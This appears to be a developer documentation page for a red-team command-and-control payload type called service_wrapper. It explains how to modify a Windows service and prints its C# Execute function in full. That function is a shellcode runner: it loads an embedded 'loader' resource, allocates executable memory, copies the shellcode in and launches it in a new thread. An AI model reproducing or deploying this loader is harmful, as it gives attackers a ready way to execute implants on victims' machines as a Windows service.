 +++
title = "Development"
chapter = false
weight = 15
pre = "<b>2. </b>"
+++

## Development Environment

Visual Studio

## Modifying the Service

If you want to modify the service, edit the `Payload_Types/service_wrapper/agent_code/WindowsService1/Service1.cs` file. Specifically, the `Execute` function contains the logic:

```c#
public bool Execute()
{
    //replace with your own shellcode
    byte[] shellcode = GetResource("loader");
    UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
    MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
    IntPtr hThread = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr pinfo = IntPtr.Zero;
    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
    WaitForSingleObject(hThread, 0xFFFFFFFF);
    return true;
}
```
